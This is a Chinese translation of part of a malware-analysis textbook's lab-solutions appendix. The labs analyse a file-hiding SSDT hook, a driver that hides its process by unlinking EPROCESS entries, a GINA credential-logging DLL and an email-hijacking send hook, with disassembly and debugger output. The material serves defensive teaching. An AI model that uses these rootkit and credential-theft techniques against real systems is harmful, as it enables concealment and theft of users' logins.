kd> **bp f7c4d486 ".if dwo(esp+0x24)==0 {} .else {gc}"**

**注意**

*如果你在目录中打开了 Windows 资源管理器，你可能会在不同的线程中看到这个断点被触发一次又一次，这可能会在你尝试分析函数时很烦人。为了更容易分析，你应该关闭所有 Windows 资源管理器窗口，并在命令行中使用 dir 命令来触发断点。*

一旦代码过滤出有趣的调用，我们就会看到另一个存储在偏移量 0xf7c4d590 处的函数。尽管 WinDbg 没有自动标记它，但我们可以通过查看反汇编或进入函数调用来确定它是 RtlCompareMemory。列表 10-11L 中的代码

显示了在处的 RtlCompareMemory 调用。

f7c4d4ca 6a08 push 8

f7c4d4cc 681ad5c4f7 push offset Mlwx486+0x51a (f7c4d51a) f7c4d4d1 8d465e lea eax,[esi+5Eh]

f7c4d4d4 50 push eax

f7c4d4d5 32db xor bl,bl

f7c4d4d7 ff1590d5c4f7 call dword ptr [Mlwx486+0x590 (f7c4d590)]

实验室解决方案

**557**

[www.it-ebooks.info](http://www.it-ebooks.info/)

f7c4d4dd 83f808 cmp eax,8

f7c4d4e0 7512 jne Mlwx486+0x4f4 (f7c4d4f4) *列表 10-11L：比较文件名以确定 rootkit 是否会修改从 NtQueryDirectoryFile 返回的信息*

我们现在可以看到补丁函数正在比较什么。如列表 10-11L 所示，RtlCompareMemory 的第一个参数是 eax，它存储了 esi+5eh 的偏移量，这是文件名的偏移量。在我们的反汇编中，我们看到了 esi 是 FileInformation，它包含由 NtQueryDirectoryFile 填充的信息。检查 NtQueryDirectoryFile 的文档，我们看到这是一个 FILE_BOTH_DIR_INFORMATION 结构，偏移量 0x5E 是存储宽字符字符串文件名的地方。（我们也可以使用 WinDbg 来告诉我们那里存储了什么。）

要查看 esi+5eh 位置存储的内容，我们使用 db 命令，如图表 10-12L 所示。这揭示了文件名为*Installer.h*。

kd> **db esi+5e**

036a302e 49 00 6e 00 73 00 74 00-61 00 6c 00 6c 00 65 00 **I.n.s.t.a.l.l.e**.

036a303e 72 00 68 00 00 00 00 00-00 00 f6 bb be f0 6e 70 **r.h**...........np 036a304e c7 01 47 c0 db 46 25 75-cb 01 50 1e c1 f0 6e 70 ..G..F%u..P...np 036a305e c7 01 50 1e c1 f0 6e 70-c7 01 00 00 00 00 00 00 ..P...np........

*列表 10-12L：检查 RtlCompareMemory 的第一个参数* 比较的另一个操作数是固定位置 f7c4d51a，我们也可以使用 db 命令来查看它。列表 10-13L 显示 RtlCompareMemory 的第二个参数存储了字母*Mlwx*，这让我们想起了驱动*Mlwx486.sys*。

kd> **db f7c4d51a**

f7c4d51a 4d 00 6c 00 77 00 78 00-00 00 00 00 00 00 00 00 **M.l.w.x**.........

f7c4d52a 00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00 ................

f7c4d53a 00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00 ................

*列表 10-13L：检查 RtlCompareMemory 的第二个参数* 调用 RtlCompareMemory 指定了 8 字节的大小，这代表宽字符字符串中的四个字符。代码正在比较每个文件，看它是否以四个字符*Mlwx*开头。我们现在有相当充分的理由相信这个驱动正在隐藏以*Mlwx*开头的文件。

**隐藏文件**

发现了 PatchFunction 将要操作的文件名后，我们分析了它将如何改变 NtQueryDirectoryFile 的返回值。查看 NtQueryDirectoryFile 的文档，我们看到一个包含一系列 FILE_BOTH_DIR_INFORMATION 结构的 FileInformation 结构。FILE_BOTH_DIR_INFORMATION 结构中的第一个字段是一个偏移量，它指向下一个 FILE_BOTH_DIR_INFORMATION。如图 10-2L 所示，PatchFunction 通过移动**558**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

将偏移量向前移动以指向下一个条目，如果当前条目的文件名以*Mlwx*开头。

图 10-2L 显示了包含三个文件的目录的 NtQueryDirectoryFile 的返回值。对于每个文件，都有一个 FILE_BOTH_DIR_INFORMATION

结构。通常，第一个结构会指向第二个，第二个会指向第三个，但 rootkit 修改了结构，使得第一个结构指向第三个，从而隐藏了中间的结构。这个技巧确保了以*Mlwx*开头的任何文件都会被跳过并从目录列表中隐藏。

FILE_BOTH_DIR_INFORMATION

FILE_BOTH_DIR_INFORMATION

FILE_BOTH_DIR_INFORMATION

**10**

*图 10-2L：一系列 FILE_BOTH_DIR_INFORMATION 结构被* *修改，使得中间的结构被隐藏*

**恢复隐藏的文件**

在确定了隐藏文件的程序之后，我们可以尝试获取驱动程序使用的原始文件，以便进行进一步分析。有几种方法可以做到这一点：

1.

禁用启动驱动程序的服务并重启。当您重启时，代码将不会运行，文件也不会被隐藏。

2.

从安装它的可执行文件的资源部分提取文件。

3.

即使文件不在目录列表中，也能访问该文件。

对 NtQueryDirectoryFile 的钩子阻止文件在目录列表中显示，但文件仍然存在。例如，您可以使用 DOS 命令 copy Mlwx486.sys NewFilename.sys 来复制文件。*NewFilename.sys* 文件将不会被隐藏。

所有这些选项都足够简单，但第一个是最好的，因为它禁用了驱动程序。禁用驱动程序后，你应该首先在系统中搜索以 *Mlwx* 开头的文件，以防有其他文件被 *Mlwx486.sys* 驱动程序隐藏。（在这种情况下没有。）在 IDA Pro 中打开 *Mlwx486.sys*，我们看到它非常小，因此我们应该分析它的全部内容，以确保驱动程序没有做我们不知道的其他事情。我们看到 DriverEntry 例程调用 RtlInitUnicodeString 与 KeServiceDescriptorTable 和 NtQueryDirectoryFile，然后调用 MmGetSystemRoutineAddress 来找到这两个地址的偏移量。接下来，它在 SSDT 中寻找 NtQueryDirectoryFile 的条目。

**559**

[www.it-ebooks.info](http://www.it-ebooks.info/)

并用 PatchFunction 的地址覆盖该条目。它不创建设备，也不向驱动程序对象添加任何功能处理程序。

**实验 10-3 解答**

***简短回答***

1.

用户空间程序加载驱动程序，然后每 30 秒弹出一次广告。驱动程序通过将进程环境块（PEB）从系统的链接列表中取消链接来隐藏进程。

2.

一旦这个程序开始运行，没有重启就无法轻易停止它。

3.

内核组件通过从进程的链接列表中取消链接发出 DeviceIoControl 请求的进程来响应任何请求，以隐藏进程对用户。

***详细分析***

我们从对文件的一些基本静态分析开始。当我们分析驱动程序文件时，我们看到以下导入：

IofCompleteRequest

IoDeleteDevice

IoDeleteSymbolicLink

RtlInitUnicodeString

**IoGetCurrentProcess**

IoCreateSymbolicLink

IoCreateDevice

KeTickCount

IoGetCurrentProcess 的导入是唯一一个提供大量信息的。 (其他导入只是任何创建用户空间可访问设备的驱动程序所必需的。) IoGetCurrentProcess 的调用告诉我们，这个驱动程序要么修改正在运行的过程，要么需要关于它的信息。

接下来，我们将驱动程序文件复制到 *C:\Windows\System32*，然后双击可执行文件运行它。我们看到一个弹出广告，与第 7-2 实验中的相同。我们现在检查它对我们系统做了什么。首先，我们检查服务是否成功安装，并验证恶意 *.sys* 文件是否作为服务的一部分使用。同时，我们注意到大约 30 秒后，程序再次弹出广告，大约每 30 秒发生一次。尝试在任务管理器中终止程序，我们看到程序没有列出。它也没有在进程资源管理器中列出。

程序继续打开广告，没有简单的方法可以停止它。它不在进程列表中，所以我们不能通过终止进程来停止它。

我们也无法将调试器附加到进程，因为程序没有出现在 WinDbg 或 OllyDbg 的进程列表中。此时，我们唯一的 **560**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

选择恢复到最近的快照或重新启动并希望程序不是持久的。它不是，所以重新启动可以停止它。

**在 IDA Pro 中分析可执行文件**

现在，转到 IDA Pro，导航到 WinMain 并检查它调用的函数，我们看到以下内容：

OpenSCManager

CreateService

StartService

CloseServiceHandle

CreateFile

DeviceIoControl

OleInitialize

CoCreateInstance

VariantInit

SysAllocString

ecx+0x2c

Sleep

**10**

OleUninitialize

WinMain 可以逻辑上分为两部分。第一部分，从 OpenSCManager 到 DeviceIoControl，包括加载和向内核驱动程序发送请求的函数。第二部分包括剩余的函数，展示了 COM 对象的使用。到目前为止，我们还不知道 ecx+0x2c 调用的目标，但稍后我们会回来讨论这个问题。

详细查看调用，我们看到程序创建了一个名为 Process Helper 的服务，该服务加载了内核驱动程序 *C:\Windows\System32\* *Lab10-03.sys*。然后它启动了 Process Helper 服务，将 *Lab10-03.sys* 加载到内核，并打开对 *\\.\ProcHelper* 的句柄，该句柄打开了对 ProcHelper 驱动程序创建的内核设备的句柄。

我们需要仔细查看 DeviceIoControl 调用，如列表 10-14L 所示，因为作为参数传递给它的输入和输出参数将被发送到内核代码，我们将需要单独分析这些代码。

0040108C lea ecx, [esp+2Ch+BytesReturned]

00401090 push 0 ; lpOverlapped 00401092 push ecx ; lpBytesReturned 00401093 push 0 ; nOutBufferSize 00401095 push

**0** ; lpOutBuffer

00401097 push 0 ; nInBufferSize 00401099 push

**0** ; lpInBuffer

0040109B push

0ABCDEF01h ; dwIoControlCode

004010A0 push eax ; hDevice 004010A1 call ds:DeviceIoControl

*列表 10-14L：Lab10-03.exe 中的 DeviceIoControl 调用，将请求传递给 Lab10-03.sys 驱动器*

解决实验方案

**561**

[www.it-ebooks.info](http://www.it-ebooks.info/)

注意，调用 DeviceIoControl 时，lpOutBuffer 在  处和 lpInBuffer 在  处被设置为 NULL。这很不寻常，这意味着这个请求不会向内核驱动程序发送任何信息，内核驱动程序也不会发送任何信息回来。另外，请注意，0xABCDEF01 的 dwIoControlCode 在  处被传递给内核驱动程序。当我们查看内核驱动程序时，我们将重新审视这一点。

此文件剩余部分几乎与 Lab 7-2 中的 COM 示例相同，只是调用导航函数的调用位于一个持续运行的循环中，每次调用之间休眠 30 秒。

**分析驱动程序**

接下来，我们使用 IDA Pro 打开内核文件。如列表 10-15L 所示，我们看到它调用 IoCreateDevice 在  处创建一个名为 \Device\ProcHelper 的设备。

0001071A push offset aDeviceProchelp ; "\\Device\\ProcHelper"

0001071F lea eax, [ebp+var_C]

00010722 push eax

00010723 call edi ; RtlInitUnicodeString

00010725 mov esi, [ebp+arg_0]

00010728 lea eax, [ebp+var_4]

0001072B push eax

0001072C push 0

0001072E push 100h

00010733 push 22h

00010735 lea eax, [ebp+var_C]

00010738 push eax

00010739 push 0

0001073B push esi

0001073C call ds:IoCreateDevice

*列表 10-15L:* Lab10-03.sys *创建一个可以从用户空间访问的设备* 如列表 10-16L 所示，该函数随后调用 IoCreateSymbolicLink 在  处创建一个名为 \DosDevices\ProcHelper 的符号链接，以便用户空间程序访问。

00010751 push offset aDosdevicesPr_0 ; "\\DosDevices\\ProcHelper"

00010756 lea eax, [ebp+var_14]

00010759 push eax

0001075A mov dword ptr [esi+70h], offset loc_10666

00010761 mov dword ptr [esi+34h], offset loc_1062A 00010768 call edi ; RtlInitUnicodeString

0001076A lea eax, [ebp+var_C]

0001076D push eax

0001076E lea eax, [ebp+var_14]

00010771 push eax

00010772 call ds:IoCreateSymbolicLink

*列表 10-16L:* Lab10-03.sys *创建一个符号链接，以便用户空间应用程序更容易访问设备句柄*

**562**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

**使用 WinDbg 在内存中查找驱动程序** 我们可以运行恶意软件或只是启动服务来将我们的内核驱动程序加载到内存中。我们知道设备对象位于 \Device\ProcHelper，所以我们从这里开始。为了找到 ProcHelper 中执行的功能，我们必须找到驱动程序对象，可以使用 !devobj 命令来完成，如列表 10-17L 所示。!devobj 的输出告诉我们 DriverObject 在  处的存储位置。

kd> **!devobj ProcHelper**

设备对象 (82af64d0) 用于：

ProcHelper \Driver\Process Helper DriverObject 82716a98

当前 Irp 00000000 RefCount 1 Type 00000022 Flags 00000040

Dacl e15b15cc DevExt 00000000 DevObjExt 82af6588

扩展标志 (0000000000)

设备队列不忙。

*列表 10-17L: 查找 ProcHelper 驱动程序的设备对象* **10**

驱动程序对象包含指向所有将在用户空间程序访问设备对象时被调用的函数的指针。驱动程序对象存储在名为 DRIVER_OBJECT 的数据结构中。我们可以使用 dt 命令以标签形式查看驱动程序对象，如列表 10-18L 所示。

kd> **dt nt!_DRIVER_OBJECT 82716a98**

+0x000 类型 : 4

+0x002 大小 : 168

+0x004 设备对象 : 0x82af64d0 _DEVICE_OBJECT

+0x008 标志 : 0x12

+0x00c DriverStart : 0xf7c26000

+0x010 驱动程序大小 : 0xe00

+0x014 驱动程序部分 : 0x827bd598

+0x018 驱动扩展 : 0x82716b40 _DRIVER_EXTENSION

+0x01c 驱动程序名称 : _UNICODE_STRING "\Driver\Process Helper"

+0x024 硬件数据库 : 0x80670ae0 _UNICODE_STRING "\REGISTRY\MACHINE\ HARDWARE\DESCRIPTION\SYSTEM"

+0x028 快速 I/O 分派 : (null)

+0x02c **DriverInit** : 0xf7c267cd long +0

+0x030 驱动程序启动 I/O : (null)

+0x034 **DriverUnload** : 0xf7c2662a void +0

+0x038 主要功能 : [28] 0xf7c26606 long +0

*列表 10-18L：使用 WinDbg 检查* Lab10-03.sys *的驱动程序对象* 此代码包含多个值得注意的函数指针。这些包括 DriverInit，我们在 IDA Pro 中分析的 DriverEntry 例程，以及 DriverUnload，当此驱动程序卸载时会被调用。当我们查看 IDA Pro 中的 DriverUnload 时，我们看到它删除了由 DriverEntry 程序创建的符号链接和设备。

实验室解决方案

**563**

[www.it-ebooks.info](http://www.it-ebooks.info/)

**分析主要功能表中的函数** 接下来，我们检查主要功能表，通常这里实现了最有意思的驱动程序代码。Windows XP 允许 0x1C 个可能的主要功能代码，因此我们使用 dd 命令查看主要功能表中的条目：

kd> **dd 82716a98+0x38 L1C**

82716ad0

f7c26606 804f354a f7c26606 804f354a

82716ae0

804f354a 804f354a 804f354a 804f354a

82716af0

804f354a 804f354a 804f354a 804f354a

82716b00

804f354a 804f354a f7c26666 804f354a

82716b10

804f354a 804f354a 804f354a 804f354a

82716b20

804f354a 804f354a 804f354a 804f354a

82716b30

804f354a 804f354a 804f354a 804f354a

表中的每个条目都代表驱动程序可以处理的不同类型的请求，但如您所见，表中的大多数条目都是针对同一函数 0X804F354A 的。表中所有值为 0X804F354A 的条目都代表驱动程序不处理的请求类型。

为了验证这一点，我们需要找出该函数的功能。我们可以查看其反汇编代码，但由于它是一个 Windows 函数，其名称应该告诉我们它做什么，如下所示：

kd> **ln 804f354a**

(804f354a) nt! **IopInvalidDeviceRequest** | (804f3580) nt!IopGetDeviceAttachmentBase

精确匹配：

nt!IopInvalidDeviceRequest = <no type information> 0X804F354A 处的函数名为 IopInvalidDeviceRequest，它表示处理该驱动程序不处理的无效请求。主函数表偏移量 0、2 和 0xe 处的其余函数包含我们感兴趣的功能。检查*wdm.h*，我们发现偏移量 0、2 和 0xe 存储了 Create、Close 和 DeviceIoControl 函数的函数。

首先，我们查看主函数表偏移量 0 和 2 处的 Create 和 Close 函数。我们注意到主函数表中的两个条目都指向同一个函数（0xF7C26606）。查看该函数，我们看到它只是调用 IofCompleteRequest 然后返回。这告诉操作系统请求已成功，但没有做其他任何事情。主函数表中剩下的唯一函数是处理 DeviceIoControl 请求的函数，这是最有趣的。

查看 DeviceIoControl 函数，我们看到它操作当前进程的 PEB。Listing 10-19L 显示了处理 DeviceIoControl 的代码。

00010666 mov edi, edi

00010668 push ebp

00010669 mov ebp, esp

**564**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

0001066B call ds:IoGetCurrentProcess 00010671 mov ecx, [eax+8Ch]

00010677 add eax, 88h

0001067C mov edx, [eax]

0001067E mov [ecx], edx

00010680 mov ecx, [eax]

00010682 mov eax, [eax+4]

00010685 mov [ecx+4], eax

00010688 mov ecx, [ebp+Irp] ; Irp

0001068B and dword ptr [ecx+18h], 0

0001068F and dword ptr [ecx+1Ch], 0

00010693 xor dl, dl ; PriorityBoost 00010695 call ds:IofCompleteRequest

0001069B xor eax, eax

0001069D pop ebp

0001069E retn 8

*Listing 10-19L: 处理 DeviceIoControl 请求的驱动代码* DeviceIoControl 函数首先调用 IoGetCurrentProcess **10**

at ，它返回发出 DeviceIoControl 调用的进程的 EPROCESS 结构。然后函数访问偏移量为 0x88 的数据。

at ，然后访问偏移量 0x8C 处的下一个 DWORD。

我们使用 dt 命令发现，LIST_ENTRY 在 PEB 结构中存储在偏移量 0x88 和 0x8C 处，如 Listing 10-20L 所示。

kd> **dt nt!_EPROCESS**

+0x000 Pcb : _KPROCESS

+0x06c ProcessLock : _EX_PUSH_LOCK

+0x070 CreateTime : _LARGE_INTEGER

+0x078 ExitTime : _LARGE_INTEGER

+0x080 RundownProtect : _EX_RUNDOWN_REF

+0x084 UniqueProcessId : Ptr32 Void

+0x088 ActiveProcessLinks : _LIST_ENTRY

+0x090 QuotaUsage : [3] Uint4B

+0x09c QuotaPeak : [3] Uint4B

...

*列表 10-20L：使用 WinDbg 检查 EPROCESS 结构* 现在我们知道该函数正在访问 LIST_ENTRY 结构，我们仔细观察 LIST_ENTRY 是如何被访问的。LIST_ENTRY 结构是一个双链表，包含两个值：第一个是 BLINK，它指向列表中的前一个条目，第二个是 FLINK，它指向列表中的下一个条目。我们看到它不仅读取 LIST_ENTRY 结构，而且还修改结构，如列表 10-21L 所示。

00010671

mov ecx, [eax+8Ch]

00010677 add eax, 88h

0001067C

mov edx, [eax]

0001067E

mov [ecx], edx

00010680

mov ecx, [eax]

实验解决方案

**565**

[www.it-ebooks.info](http://www.it-ebooks.info/)

00010682

mov eax, [eax+4]

00010685

mov [ecx+4], eax

*列表 10-21L：修改 EPROCESS 结构的 DeviceIoControl 代码* 指令获取列表中下一个条目的指针。指令获取列表中前一个条目的指针。指令覆盖下一个条目的 BLINK 指针，使其指向前一个条目。在之前，下一个条目的 BLINK 指针指向当前条目。指令覆盖 BLINK 指针，使其跳过当前进程。指令、和执行相同的步骤，只是覆盖列表中前一个条目的 FLINK 指针以跳过当前进程。

列表 10-21L 中的代码不是改变当前进程的 EPROCESS 结构，而是改变链表中当前进程前后进程的 EPROCESS 结构。这六个指令通过从已加载进程的链表中取消链接当前进程来隐藏当前进程，如图 10-3L 所示。

进程 1

进程 2

进程 3

进程 4

...

...

LIST_ENTRY

LIST_ENTRY

LIST_ENTRY

LIST_ENTRY

*图 10-3L：从进程列表中移除进程以便从工具* *如任务管理器* *中隐藏*

当操作系统正常运行时，每个进程都有一个指向其前后进程的指针。然而，在图 10-3L 中，进程 2 已被这个 rootkit 隐藏。当操作系统遍历进程的链表时，隐藏的进程总是被跳过。

你可能会想知道这个进程是如何在没有问题的情况下继续运行的，尽管它不在操作系统的进程列表中。为了回答这个问题，请记住，进程只是各种线程在内部运行的容器。线程被调度在 CPU 上执行。只要线程仍然被操作系统正确地计入，它们就会被调度，进程将继续正常运行。

**实验 11-1 解决方案**

***简短回答***

1.

恶意软件从名为 TGAD 的资源部分提取并将文件*msgina32.dll*放置在磁盘上。

2.

恶意软件通过将其添加到注册表位置 HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\ GinaDLL 中，将*msgina32.dll*作为 GINA DLL 安装，导致系统重启后加载该 DLL。

**566**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)



3.

恶意软件通过执行 GINA 侦听来窃取用户凭证。*msgina32.dll* 文件能够拦截提交给系统进行身份验证的所有用户凭证。

4.

恶意软件将窃取的凭证记录到 *%SystemRoot%\System32\* *msutil32.sys* 文件中。用户名、域和密码以时间戳的形式记录到文件中。

5.

一旦恶意软件被部署并安装，必须重启系统才能开始 GINA 侦听。恶意软件仅在用户注销时记录凭证，因此请注销并重新登录以查看日志文件中的凭证。

***详细分析***

从基本的静态分析开始，我们看到字符串 GinaDLL 和 SOFTWARE\ Microsoft\Windows NT\CurrentVersion\Winlogon，这使我们怀疑这可能是 GINA 侦听恶意软件。检查导入项，我们看到用于操作注册表和提取资源部分的函数。因为我们看到了资源提取导入函数，所以我们通过将 *Lab11-01.exe* 加载到 PEview 中来检查文件结构，如图 11-1L 所示。

**1 1**

*图 11-1L:* Lab11-01.exe 在 PEview 中显示的 TGAD 资源部分* 检查 PE 文件格式，我们看到一个名为 TGAD 的资源部分。

当我们在 PEview 中单击该部分时，我们看到 TGAD 包含一个嵌入的 PE 文件。

接下来，我们执行动态分析，并通过为 *Lab11-01.exe* 设置过滤器来使用 procmon 监控恶意软件。当我们启动恶意软件时，我们看到它在恶意软件启动的同一目录的磁盘上创建了一个名为 *msgina32.dll* 的文件。恶意软件将 *msgina32.dll* 的路径插入到注册表键 HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\GinaDLL 中，这样当系统重启时，Winlogon 将加载该 DLL。

从 *Lab11-01.exe* 中提取 TGAD 资源部分（使用 Resource Hacker）并将其与 *msgina32.dll* 进行比较，我们发现两者是相同的。

接下来，我们将 *Lab11-01.exe* 文件加载到 IDA Pro 中以确认我们的发现。我们看到主函数调用了两个函数：sub_401080（将 TGAD 资源部分提取到 *msgina32.dll*）和 sub_401000（设置 GINA 注册表值）。我们解决方案到实验室

**567**

[www.it-ebooks.info](http://www.it-ebooks.info/)

我们得出结论，*Lab11-01.exe* 是 *msgina32.dll* 的安装程序，该程序在系统启动时由 Winlogon 加载。

**msgina32.dll 分析**

我们将开始对 *msgina32.dll* 的分析，查看列表 11-1L 中的字符串输出。

GinaDLL

Software\Microsoft\Windows NT\CurrentVersion\Winlogon

MSGina.dll

UN %s DM %s PW %s OLD %s 

msutil32.sys

*列表 11-1L:* msgina32.dll 的字符串输出

此列表中的字符串似乎包含一个日志消息在，如果这是 GINA 侦听恶意软件，则可以用来记录用户凭证。字符串 msutil32.sys 很有趣，我们将在实验的后面确定其重要性。

检查*msgina32.dll*的导出，我们看到许多以 Wlx 为前缀的函数。回想第十一章，GINA 拦截恶意软件必须包含所有这些 DLL 导出，因为它们是 GINA 所必需的。我们将在 IDA Pro 中分析这些函数中的每一个。

我们首先将恶意软件加载到 IDA Pro 中，并分析 DllMain，如列表 11-2L 所示。

1000105A cmp eax, DLL_PROCESS_ATTACH 

1000105D jnz short loc_100010B7

...

1000107E call ds:GetSystemDirectoryW 

10001084 lea ecx, [esp+20Ch+LibFileName]

10001088 push offset String2 ; "\\MSGina"

1000108D push ecx ; lpString1

1000108E call ds:lstrcatW

10001094 lea edx, [esp+20Ch+LibFileName]

10001098 push edx ; lpLibFileName 10001099 call ds:LoadLibraryW 

1000109F xor ecx, ecx

100010A1 mov hModule, eax 

*列表 11-2L: msgina32.dll 的 DllMain 获取 msgina.dll 的句柄* 如列表 11-2L 所示，DllMain 首先检查处的 fdwReason 参数。这是一个传入的参数，用于指示 DLL 入口点函数被调用的原因。恶意软件检查 DLL_PROCESS_ATTACH，当进程启动或使用 LoadLibrary 加载 DLL 时被调用。如果这个特定的 DllMain 在 DLL_PROCESS_ATTACH 期间被调用，则从开始执行代码。此代码通过在处调用 LoadLibraryW 获取 Windows 系统目录中的*msgina.dll*的句柄。

**568**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

**注意**

msgina.dll *是实现 GINA 的 Windows DLL，而* msgina32.dll *是恶意软件作者的 GINA 拦截 DLL。* msgina32 *的名称设计用来欺骗。

恶意软件将句柄保存在 IDA Pro 命名为 hModule 的全局变量中。使用此变量允许 DLL 的导出正确调用*msgina.dll* Windows DLL 中的函数。由于*msgina32.dll*正在拦截 Winlogon 和*msgina.dll*之间的通信，它必须正确调用*msgina.dll*中的函数，以便系统继续正常运行。

接下来，我们分析每个导出函数。我们从 WlxLoggedOnSAS 开始，如列表 11-3L 所示。

10001350 WlxLoggedOnSAS proc near

10001350 push offset aWlxloggedons_0 ; "WlxLoggedOnSAS"

10001355 call sub_10001000

1000135A jmp eax 

*列表 11-3L: WlxLoggedOnSAS 导出仅通过 msgina.dll 转发* The WlxLoggedOnSAS 导出简短且仅通过 msgina.dll 转发到包含在*msgina.dll*中的真实 WlxLoggedOnSAS。现在有两个 WlxLoggedOnSAS 函数：*msgina32.dll*中的列表 11-3L 版本和*msgina.dll*中的原始版本。

**1 1**

列表 11-3L 中的函数首先将字符串 WlxLoggedOnSAS 传递给 sub_10001000，然后跳转到结果。sub_10001000 函数使用 hModule 句柄（指向*msgina.dll*）和传递的字符串（在本例中为 WlxLoggedOnSAS）来使用 GetProcAddress 解析*msgina.dll*中的函数。

恶意软件没有调用该函数；它只是解析了 *msgina.dll* 中 WlxLoggedOnSAS 的地址，并跳转到该函数，如  处所见。通过跳转而不是调用 WlxLoggedOnSAS，此代码不会设置堆栈帧或将在堆栈上推送返回地址。当 *msgina.dll* 中的 WlxLoggedOnSAS 被调用时，它将直接返回到 Winlogon，因为堆栈上的返回地址与调用列表 11-3L 中的代码时的堆栈上的地址相同。

如果我们继续分析其他导出，我们会看到大多数操作类似于 WlxLoggedOnSAS（它们是中继函数），除了 WlxLoggedOutSAS，它包含一些额外的代码。（当用户从系统中注销时，会调用 WlxLoggedOutSAS。）

导出首先使用 GetProcAddress 在 *msgina.dll* 中解析 WlxLoggedOutSAS，然后调用它。导出还包含列表 11-4L 中显示的代码。

100014FC push offset aUnSDmSPwSOldS  ; "UN %s DM %s PW %s OLD %s"

10001501 push 0 ; dwMessageId 10001503 call sub_10001570 

*列表 11-4L：WlxLoggedOutSAS 调用凭证记录函数 sub_10001570*

列表 11-4L 中的代码传递了一堆参数和一个格式字符串。这个字符串传递给了 sub_10001570，它在  处被调用。

实验室解决方案

**569**

[www.it-ebooks.info](http://www.it-ebooks.info/)

看起来 sub_10001570 可能是用于窃取凭证的记录函数，因此让我们检查它以了解它做了什么。列表 11-5L 显示了 sub_10001570 中包含的记录代码。

1000158E call _vsnwprintf 

10001593 push offset Mode ; 模式

10001598 push offset Filename ; "msutil32.sys"

1000159D call _wfopen 

100015A2 mov esi, eax

100015A4 add esp, 18h

100015A7 test esi, esi

100015A9 jz loc_1000164F

100015AF lea eax, [esp+858h+Dest]

100015B3 push edi

100015B4 lea ecx, [esp+85Ch+Buffer]

100015B8 push eax

100015B9 push ecx ; 缓冲区 100015BA call _wstrtime 

100015BF add esp, 4

100015C2 lea edx, [esp+860h+var_828]

100015C6 push eax

100015C7 push edx ; 缓冲区 100015C8 call _wstrdate 

100015CD add esp, 4

100015D0 push eax

100015D1 push offset Format ; "%s %s - %s "

100015D6 push esi ; 文件

100015D7 call fwprintf 

*列表 11-5L：凭证记录函数记录到* msutil32.sys

在  处的 vsnwprintf 调用填充了由 WlxLoggedOutSAS 导出传入的格式字符串。接下来，恶意软件在  处打开 *msutil32.sys* 文件，该文件位于 *C:\Windows\System32\* 中，因为 Winlogon 就驻留在那里（并且 *msgina32.dll* 在 Winlogon 进程中运行）。在  和  处记录日期和时间，并在  处记录信息。你现在应该意识到 *msutil32.sys* 用于存储记录的凭证，尽管它的名字暗示它是一个驱动程序，但它实际上不是。

我们通过运行 *Lab11-01.exe*、重新启动计算机然后登录和注销系统来强制恶意软件记录凭证。以下是由此恶意软件创建的日志文件中的数据示例：09/10/11 15:00:04 - UN user DM MALWAREVM PW test123 OLD (null) 09/10/11 23:09:44 - UN hacker DM MALWAREVM PW p@ssword OLD (null) 用户名是 user 和 hacker，他们的密码是 test123 和 p@ssword，域是 MALWAREVM。

**570**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

**总结**

实验 11-1 是 GINA 拦截器安装程序。恶意软件在系统上放置一个 DLL 并将其安装以窃取用户凭证，开始于系统重启后。

一旦 GINA 拦截器 DLL 安装并运行，当用户从系统中注销时，它会将凭证记录到 *msutil32.sys*。

**实验 11-2 解决方案**

***简答题***

1.

*Lab11-02.dll* 包含一个名为 installer 的导出。

2.

如果你使用 rundll32.exe Lab11-02.dll,installer 从命令行运行恶意软件，恶意软件将自身复制到 Windows 系统目录作为 *spoolvxx32.dll* 并在 AppInit_DLLs 下持续安装。

恶意软件还尝试从 Windows 系统目录打开 *Lab11-02.ini*，但它没有在那里找到它。

3.

*Lab11-02.ini* 必须位于 *%SystemRoot%\System32\* 中，恶意软件才能正常运行。

4.

恶意软件将其自身安装到 AppInit_DLLs 注册表值中，这导致 **1 1**

将恶意软件加载到每个也加载 *User32.dll* 的进程。

5.

此恶意软件安装了发送函数的行内钩子。

6.

钩子检查出站数据包是否是包含 RCPT TO:的电子邮件消息，如果找到此字符串，则添加包含恶意电子邮件账户的额外 RCPT TO 行。

7.

恶意软件仅针对 *MSIMN.exe*、*THEBAT.exe* 和 *OUTLOOK.exe*，因为它们都是电子邮件客户端。除非恶意软件在这些进程之一内运行，否则它不会安装钩子。

8.

INI 文件包含一个加密的电子邮件地址。在解密 *Lab11-02.ini* 后，我们看到它包含 *billy@malwareanalysisbook.com*。

9.

请参阅第 580 页的“捕获网络流量”部分，了解我们使用 Wireshark、一个假邮件服务器和 Outlook Express 捕获数据的方法。

***详细分析***

我们从对 *Lab11-02.dll* 的基本静态分析开始。该 DLL 只有一个导出，名为 installer。恶意软件包含用于操作注册表（RegSetValueEx）、更改文件系统（CopyFile）和搜索进程或线程列表（CreateToolhelp32Snapshot）的导入。*Lab11-02.dll* 的有趣字符串显示在列表 11-6L 中。

RCPT TO: <

THEBAT.EXE

OUTLOOK.EXE

MSIMN.EXE

send

实验解决方案

**571**

[www.it-ebooks.info](http://www.it-ebooks.info/)

wsock32.dll

SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows

spoolvxx32.dll

AppInit_DLLs

\Lab11-02.ini

*列表 11-6L：Lab11-02.dll 中的有趣字符串*：字符串 AppInit_DLLs 和 SOFTWARE\Microsoft\Windows NT\CurrentVersion\ Windows 指示恶意软件可能使用 AppInit_DLLs 来安装自身以实现持久化。字符串 \Lab11-02.ini 指示恶意软件使用本实验提供的 INI 文件。

